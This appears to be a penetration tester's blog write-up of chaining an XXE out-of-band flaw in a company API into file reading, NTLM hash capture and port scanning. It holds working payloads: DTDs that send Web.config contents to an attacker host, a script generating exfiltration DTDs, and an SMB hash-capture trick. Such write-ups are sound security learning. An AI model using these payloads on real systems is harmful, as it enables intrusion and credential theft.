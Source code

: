 ```yaml
---
title: Another Sample Page
published: true
---
```

# [](#header-1) From XXE to NTLM thief!

Long time no read! I am writing this post because of a recent chain of cool vulnerabilities I got the opportuninty to exploit during a pentest.

For security reasons, I am not going to reveal the name of the company, although the bugs have been (or `should` be) mitigated.
The vulnerability got to compromise an API through an [XXE OOB](another-page) vulnerability, from where I could read local files and also exfiltrate valuable data, such as domain name, username and NTLM hash. Finally, I `sorta` got access to a port scan just to look for internal ports.

## [](#header-2)Basic PoC

Let's take a look on the original request from the page, intercepted with burp:

```json
POST blah/blah HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.3
Accept: */*
Postman-Token: XX
Host: XXX.YYY.ZZ
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 3292

{
  "device": {
    "brand": "Apple",
    "model": "iPhone",
    "os": "12.1.2",
    "deviceType": 1,
    "deviceOs": 1,
    "userInformation": {
      "phoneNumber": "650371725",
      "owner": {
        "firstName": "peep ",
        "surName": null,
        "lastName": "test "
      },
      "drivers": [
        {
          "firstName": "peep ",
          "surName": null,
          "lastName": "test "
        }
      ],
    },
    "deviceAttributes": [
      {
        "key": "LANGUAGE_CODE",
        "value": "es"
      }
    ],
    "kyrosDeviceId": null
  },
  "incidentType": 2,
  "xmlDisplay": null,
  "xmlCase": "&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;xmlCase version=&quot;1.0&quot;&gt;&lt;phone&gt;&lt;imei /&gt;&lt;/phone&gt;&lt;ResponseQuestions&gt;&lt;Questions&gt;&lt;Question&gt;&lt;Answers&gt;&lt;Answer&gt;&lt;AnswerId&gt;1&lt;/AnswerId&gt;&lt;TextAnswer&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;Avería&lt;/Message&gt;&lt;/Text&gt;&lt;/TextAnswer&gt;&lt;Value&gt;100&lt;/Value&gt;&lt;/Answer&gt;&lt;/Answers&gt;&lt;Order&gt;1&lt;/Order&gt;&lt;QuestionId&gt;1&lt;/QuestionId&gt;&lt;TextQuestion&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;¿Qué ha sucedido?&lt;/Message&gt;&lt;/Text&gt;&lt;/TextQuestion&gt;&lt;/Question&gt;&lt;/Questions&gt;&lt;ReferenceId&gt;ITPOLICY_0001&lt;/ReferenceId&gt;&lt;/ResponseQuestions&gt;&lt;userdescription&gt;&lt;userdata&gt;&lt;language code=&quot;es&quot;&gt;&lt;field name=&quot;NIF&quot; attributeid=&quot;3&quot;&gt;34007678Q&lt;/field&gt;&lt;field name=&quot;Tipo Vehiculo&quot; attributeid=&quot;4&quot;&gt;Moto&lt;/field&gt;&lt;field name=&quot;Marca&quot; attributeid=&quot;5&quot;&gt;Bmw &lt;/field&gt;&lt;field name=&quot;Modelo&quot; attributeid=&quot;6&quot;&gt;&lt;/field&gt;&lt;field name=&quot;Matrícula&quot; attributeid=&quot;7&quot;&gt;0362FPG&lt;/field&gt;&lt;field name=&quot;Combustible&quot; attributeid=&quot;9&quot;&gt;&lt;/field&gt;&lt;/language&gt;&lt;/userdata&gt;&lt;/userdescription&gt;&lt;/xmlCase&gt;",
  "userProfile": null
```

First thing I thought when I saw the request was the XML parameters of the data section (in fact, it was the only thing I saw interesting). If we HTML-decode it we have the following:

```
<?xml version="1.0" encoding="UTF-8"?><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

I tried a basic Proof of concept with Burp Collaborator:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://abc.burpcollaborator.net">]><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

Looks like I got profit :D:

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/burp_collab.png)

However, the response from the server shows nothing to me, so it is time to get `out of band`. 

## [](#header-2)Let's retrieve files!

Now I need to adapt my payload to make it connect to a server where I have control. From there, I need to publish a malicious DTD in order to test LFI. The payload will be:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xx.xx.xx.xx:80/evil.dtd"> %xxe;]
```

And the external DTD that will be invoked will be something like this:

```xml
<!ENTITY % file SYSTEM "file:///c:/Inetpub/wwwroot/Web.config">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % file "<!ENTITY fileContents '%start;%file;%end;'>">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xx.xx.xx.xx:80/%file;'>">
%eval;
%exfiltrate;
```

Notice that I tried to retrieve a windows file. This is because in the responses of the webapp, I saw it was running a IIS.
Okay, so now we just need to make the request while hosting a rogue web server in port 80 and...

```
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /evil.dtd HTTP/1.1" 200 -
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] code 404, message File not found
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /%0D%0A%3Cconfiguration%3E%0D%0A%20%20%20%20%3Csystem.webServer%3E%0D%0A%20%20%20%20%20%20%20%20%3Csecurity%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cauthorization%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cadd%20accessType=%22Allow%22%20users=%22*%22%20/%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C/authorization%3E%0D%0A%20%20%20%20%20%20%20%20%3C/security%3E%0D%0A%20%20%20%20%3C/system.webServer%3E%0D%0A%3C/configuration%3E HTTP/1.1" 404
```
Yay we got LFI! Now I needed to look for more interesting files. I thought about using intruder to fuzz for windows/IIS interesting files. However, I realized that the file name was in the DTD, not in the request... I though about some dirty solution then lol.

```python
#!/usr/bin/python
import sys

i=0
with open('file.txt') as fp:
    
    line = fp.readline().strip().lower()
    while line:
        f = open("evil" + str(i) + ".dtd", "a")
        f.write("<!ENTITY % file SYSTEM \"file:///" + line + "\">\n")
        f.write("<!ENTITY % start \"<![CDATA[\">\n")
        f.write("<!ENTITY % end \"]]>\">\n")
        f.write("<!ENTITY % file \"<!ENTITY fileContents '%start;%file;%end;'>\">\n")
        f.write("<!ENTITY % eval \"<!ENTITY &#x25; exfiltrate SYSTEM 'http:/xx.xx.xx.xx/%file;'>\">\n")
        f.write("%eval;\n")
        f.write("%exfiltrate;\n")
        f.close()
        line = fp.readline().strip().lower()
        i+=1
```

This script basically creates as many DTD files as lines in the wordlist I used to fuzz xD. Now it is only neccesary to run a Burp Intruder with evil0.dtd to evil[numer of words in the wordlist, in my case 389].dtd.

After some bruteforce time (the API takes its time to response...), I only got a couple more files but nothing interesting... :(
How could I escalate the vulnerability now? After some time reading, I found this gem: https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

### [](#header-3)XXE to steal NTLM hash

My external DTD will look like this:

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file://xx.xx.xx.xx/blah;'>">
%eval;
%exfiltrate;
```
What does it do? It basically forces the victim to connect to a SMB share exposed. This requires however a very bad network configuration that allows outbound traffic to unauthenticated rogue SMB exposed shares (spoiler: this is the case lol):
Now I just need to host a SMB capture server using metasploit:

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/msfsmb.png)

Bingo!

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/ntlm.png)

This is a win :D. In order to use this hash, we could use various methods:

1.  Crack it and find an exposed RDP service of the server. 
2.  Have access to the internal network and use SMBRelay+Responder to get a shell.
3.  Find an exposed Exchange server and PtH.
 
None of them were available to me unfortunately, but I learnt a lot :D.

## [](#header-2)Bonus track: Port scanner!

As an extra, I used the DTD to make a port `sweep` (poorly useful, as this service was slow af) with a XXE OoB time-based.

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:XX'>">
%eval;
%exfiltrate;
```

Where XX is the number of the port to test. If the port is open, it will typically take different time in the response than if it is closed. Although this worked in my case, it was not very useful because of two things:
1.  Requests took ~90s of response time, which is not good for bruteforcing open ports.
2.  I did not have access to any of these services.

I hope you liked it! :)


